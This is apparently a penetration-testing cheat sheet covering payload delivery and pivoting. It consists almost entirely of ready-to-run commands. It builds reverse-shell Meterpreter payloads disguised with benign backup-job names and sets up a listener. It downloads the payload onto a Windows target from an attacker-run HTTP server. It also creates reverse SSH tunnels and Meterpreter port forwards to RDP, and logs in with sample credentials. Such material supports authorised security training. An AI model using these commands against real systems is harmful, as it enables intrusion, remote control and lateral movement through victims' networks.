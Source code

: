 ## File Transfers and Payload Execution

Generate, transfer, and execute payloads.

```bash
# Create Windows Meterpreter payload
msfvenom -p windows/x64/meterpreter/reverse_https lhost=<InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080

# Create Linux Meterpreter payload
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IPaddressofAttackHost> -f elf -o backupjob LPORT=8080

# Set up handler
msf6 > use exploit/multi/handler

# Transfer file via SCP
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/

# Start HTTP server
python3 -m http.server 8123

# Download file on Windows target
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

## SSH Reverse Port Forwarding

Forward remote traffic to the attack host.

```bash
# Create reverse SSH tunnel
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:80 ubuntu@<ipAddressofTarget> -vN
```

## SOCKS Proxies with Metasploit and Meterpreter

Set up port forwarding with Meterpreter.

```bash
# Display portfwd options
meterpreter > help portfwd

# Forward local port to RDP
meterpreter > portfwd add -l 3300 -p 3389 -r <IPaddressofTarget>

# Connect to forwarded RDP port
xfreerdp /v:localhost:3300 /u:victor /p:pass@123

# Set up reverse port forwarding
meterpreter > portfwd add -R -l 8081 -p 1234 -L <IPaddressofAttackHost>

# Background Meterpreter session
meterpreter > bg
```

